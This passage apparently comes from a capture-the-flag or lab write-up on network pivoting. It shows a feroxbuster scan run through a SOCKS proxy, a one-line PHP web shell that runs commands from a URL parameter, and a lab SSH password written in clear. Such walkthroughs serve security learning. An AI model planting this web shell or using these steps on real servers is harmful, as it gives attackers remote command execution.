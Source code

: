 ```bash
feroxbuster -u http://30.30.30.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --proxy socks5://127.0.0.1:1111 -x php,html,js,txt
```

![Image](../assets/img/post/littlepivoting/image-34.png)

```python
<?php 
system($_GET['cmd']);
__HALT_COMPILER();
?>
```

![Image](../assets/img/post/littlepivoting/image-35.png)

For get a reverse shell we need to log in as mario.
(proxychains ssh mario@20.20.20.3 | chocolate)

![Image](../assets/img/post/littlepivoting/image-36.png)

![Image](../assets/img/post/littlepivoting/image-37.png)

![Image](../assets/img/post/littlepivoting/image-38.png)
